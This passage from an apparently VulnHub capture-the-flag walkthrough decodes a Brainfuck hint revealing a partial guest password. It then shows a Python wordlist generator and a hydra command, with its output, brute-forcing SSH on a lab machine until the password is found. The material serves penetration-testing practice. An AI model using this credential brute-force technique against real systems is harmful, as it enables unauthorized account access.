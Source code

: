 ```text
+++++ +.<++ +[->- --<]> -.+++ +++.- --.<+ +++++ +++[- >---- ----- <]>-.
<++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ .++++ +++++ .<+++ +[->- ---<]
>--.+ +++++ ++.<+ +++++ ++[-> ----- ---<] >---- ----- --.<+ +++++ ++[->
+++++ +++<] >+.<+ ++[-> +++<] >++++ .<+++ [->-- -<]>- .<+++ +++++ [->--
----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++ +++.< +++[-
>---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ +[->+ +++++ ++<]>
+++.< +++[- >+++< ]>+++ .+++. .<+++ [->-- -<]>- ---.- -.<++ ++[-> ++++<
]>+.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ +++[- >++++ +++++ <]>++
.+.-- .---- ----- .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- -----
.<+++ +++++ [->++ +++++ +<]>+ +++++ +++++ ++++. ----- ----. <++++ ++++[
->--- ----- <]>-- ----. <++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ ++++.
<+++[ ->--- <]>-- ----. <++++ [->++ ++<]> ++..+ +++.- ----- --.++ +.<++
+[->- --<]> ----- .<+++ ++++[ ->--- ----< ]>--- --.<+ ++++[ ->--- --<]>
----- ---.- --.<
```

That code looks like Brainfuck. We can run it using this [site](https://copy.sh/brainfuck/) to get the ouput. 

```text
You can enter into matrix as guest, with password k1ll0rXX Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password. 
```

And here we have another amazing clue, brute forcing those two last characters won't bo that difficult, we can easily write a Python script to iterate over every permutation of `ascii_letters` and `string.digits` and pass them to the wordlist file.

```python
root@kali:~/vulnhub# cat wordlist.py
#!/usr/bin/env python3

import itertools
import string

candidate_characters = list(string.ascii_letters + string.digits)
for candidate_password in itertools.permutations(candidate_characters, 2):
    print('k1ll0r' + ''.join(candidate_password))
```

Now we can use `hydra` to brute force the password. 

```text 
root@kali:~/vulnhub# hydra -l guest -P wordlist 10.0.0.8 -t 4 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-08 15:16:27
[DATA] max 4 tasks per 1 server, overall 4 tasks, 3782 login tries (l:1/p:3782), ~946 tries per task
[DATA] attacking ssh://10.0.0.8:22/
[22][ssh] host: 10.0.0.8   login: guest   password: k1ll0r7n
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-12-08 15:48:46
```
